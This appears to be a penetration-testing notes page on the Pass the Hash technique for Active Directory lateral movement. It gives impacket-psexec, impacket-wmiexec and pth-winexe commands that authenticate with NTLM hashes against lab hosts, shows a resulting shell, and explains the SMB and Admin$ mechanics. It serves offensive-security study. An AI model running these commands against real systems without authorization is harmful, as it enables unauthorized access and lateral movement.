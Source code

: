 ```yaml
---
description: >-
  Pass The Hash
title: Pass The Hash              # Add title here
date: 2023-02-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, pass the hash]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

> To extract hashes for a pass the hash, go to [Dumping SAM](https://shuciran.github.io/posts/Dumping-SAM/) section or [DCSync](https://shuciran.github.io/posts/DCSync/) section.
{: .prompt-tip }

### Impacket-psexec
You can use impacket-psexec to pass the hash into winrm service:
```bash
impacket-psexec offsec.local/Administrator:@192.168.143.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:impacket-psexec)
[[Sauna#^]]
### Impacket-wmiexec
```bash
impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```
Examples:
[[Sizzle#^59aa0a]]

### PtH
We can use _pth-winexe_ from the Passing-The-Hash toolkit, just as we did when we passed the hash to a non-domain joined user in the Password Attacks module:
```
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Explanation
The _Pass the Hash_ (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password. Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication.

Many third-party tools and frameworks use PtH to allow users to both authenticate and obtain code execution, including PsExec from Metasploit, Passing-the-hash toolkit, and [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py). The mechanics behind them are more or less the same in that the attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash.

Most tools built to exploit PtH create and start a Windows service (for example cmd.exe or an instance of PowerShell) and communicate with it using _Named Pipes_. This is done using the Service Control ManagerAPI.

This technique requires an SMB connection through the firewall (commonly port 445), and the Windows _File and Print Sharing_ feature to be enabled. These requirements are common in internal enterprise environments.

When a connection is performed, it normally uses a special admin share called Admin$. In order to establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

Note that PtH uses the NTLM hash legitimately. However, the vulnerability lies in the fact that we gained unauthorized access to the password hash of a local administrator.



